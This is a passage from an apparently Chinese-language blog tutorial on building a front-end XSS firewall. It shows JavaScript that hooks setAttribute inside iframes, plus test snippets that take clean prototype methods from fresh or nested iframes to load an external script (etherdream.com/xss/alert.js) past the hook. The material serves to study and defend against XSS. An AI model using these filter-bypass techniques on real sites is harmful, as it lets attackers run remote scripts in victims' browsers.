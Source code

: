 ```js
	installHook(window);

	document.addEventListener('DOMNodeInserted', function(e) {
		var element = e.target;

		// 给框架里环境也装个钩子
		if (element.tagName == 'IFRAME') {
			installHook(element.contentWindow);
		}
	}, true);
})();


// 反射出纯净的接口
var frm = document.createElement('iframe');
document.body.appendChild(frm);
var raw_fn = frm.contentWindow.Element.prototype.setAttribute;

// 创建脚本
var el = document.createElement('script');
raw_fn.call(el, 'SRC', 'http://www.etherdream.com/xss/alert.js');
document.body.appendChild(el);
```
[Run](http://jsfiddle.net/zjcqoo/LHznC/)


完美！对话框成功弹出来了！即使从框架页里反射出新环境，仍然带有我们的钩子程序。

不过，貌似还漏了些什么。要是从框架页里再套框架页，我们就杯具了：

```js
// 创建框架页
var frm = document.createElement('iframe');
document.body.appendChild(frm);

// 创建框架页的框架页
var doc = frm.contentDocument;
var frm2 = doc.createElement('iframe');
doc.body.appendChild(frm2);

// 反射接口
var raw_fn = frm2.contentWindow.Element.prototype.setAttribute;

// 创建脚本
var el = document.createElement('script');
raw_fn.call(el, 'SRC', 'http://www.etherdream.com/xss/alert.js');
document.body.appendChild(el);
```
[Run](http://jsfiddle.net/zjcqoo/MGBVP/)

<div class="post-img"><img src="/img/xss-frontend-firewall-3/frame_nest.png" style="max-width:840px;" /></div>
